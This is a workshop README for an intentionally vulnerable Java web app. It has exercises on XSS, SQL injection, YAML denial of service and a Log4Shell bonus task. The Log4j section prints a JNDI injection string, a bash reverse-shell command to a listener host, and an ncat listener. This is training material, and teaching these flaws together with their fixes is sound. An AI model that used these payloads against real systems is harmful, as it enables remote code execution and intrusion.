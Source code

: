 # DevNexus Security Workshop 2022

## Setting up
Clone the repository

```
git clone https://github.com/bmvermeer/java-security-code-workshop.git 
```

Now you have **2 options** to build and run the application

- Build and run using docker

    ```
    docker-compose up --build
    ```
- Run on you local machine if Java 8 and Maven are installed
    ```
    mvn clean package
    mvn spring-boot:run
    ```
Go to http://localhost:8081/ to see the application

###Login
Username: admin
Password: foobar

## Assignment 1
### Cross site scripting

On the search page you can click on the username to show you more details
This page is vulnerable to a Cross site scripting attack.
![DirectLink1](image/directlink.png)
![DirectLink2](image/directlink2.png)

### 1a Try to create an alert loading the page
- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 1b Try to display the token of a user that is on the page

- [Hint 3](hints/adduser/hint3.md)
- [Hint 4](hints/adduser/hint4.md)

### 1c Fix by sanitizing the input

- [Hint 5](hints/adduser/hint5.md)
- [Hint 6](hints/adduser/hint6.md)
- [Hint 7](hints/adduser/hint7.md)



## Assignment 2
### SQL injection

On the Search page, you can search the users by **username**.
By using a `%` you can provide wildcards. For instance `Super%` will give you the result for **Superman**
Using the search term `%man`

![Search](image/search.png)

### 2a Try to create a search phrase that searches for the **firstname** 'Bruce'

- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 2b Try to override every **lastname** with 'EVIL'
- [Hint 3](hints/sqli/hint3.md)
- [Hint 4](hints/sqli/hint4.md)

### 2c Fix the vulnerability
- [Hint 5](hints/sqli/hint5.md)
- [Hint 6](hints/sqli/hint6.md)
- [Hint 7](hints/sqli/hint7.md)

## Assignment 3
### Denial of Service

Go to `import` to import new users using a yaml file
![import](image/import.png)
![yaml](image/yaml.png)

### 3a Upload 2 new users using a yaml file similar to this
```yaml
user:
  -
    firstname: Matt
    lastname: Murdock
    username: Daredevil
    password: BlindFighter
    comment: "Lives in Hell's Kitchen NYC and is blind."
  -
    firstname: Dick
    lastname: Grayson
    username: Robin
    password: boyWonder
    comment: "The junior counterpart of Batman"
```

### 3b Try to cause a java.lang.OutOfMemoryError Exception
- [Hint 1](hints/dos/hint1.md)
- [Hint 2](hints/dos/hint2.md)
- [Hint 3](hints/dos/hint3.md)

### 3c Fix the vulnerability
- [Hint 4](hints/dos/hint4.md)
- [Hint 5](hints/dos/hint5.md)
- [Hint 6](hints/dos/hint6.md)



## Assignment 4 (Bonus assignment)
### Log4j

For this exercise you need `netcat` installed on your local machine.
Also, you MUST run this application from a Docker container.

This application uses a vulnerable version of log4j. We can use this to access a serialization gadget chain available in the classpath to execute commands

### 4a go to the login screen and submit a wrong username / password combination
You will notice that in the logs, an error statement is logged containing the username

### 4b startup the evil LDAP server
From the root of the project do the following

```
cd exploits/log4shell-server/
mvn clean package 
mvn exec:java
```

### 4c Launch netcat
In a new terminal window launch netcat listening to port 9001
```
ncat -lvp 9001
```

### 4d launch the attack
The exploit server will create serialize java payload containing a gadget chain that is available in the outdated apache `commons-collections` library.
This payload will try to execute following statement to create a reversed shell: `"$@| bash -i >& /dev/tcp/host.docker.internal/9001 0>&1"`

From your docker container connect tot the LDAP server on you local machine

Use below as the username with any given password 
```
${jndi:ldap://host.docker.internal:9999/Commons}
```



If everything works out, you just executed a reverse shell command to port 9001
Because you netcat is listening to this you now have shell access to that machine.
The terminal you started netcat in should now look like similar to this.

![ncat](image/ncat.png)

Play around as you now have remote access to this machine by leveraging a remote code execution.








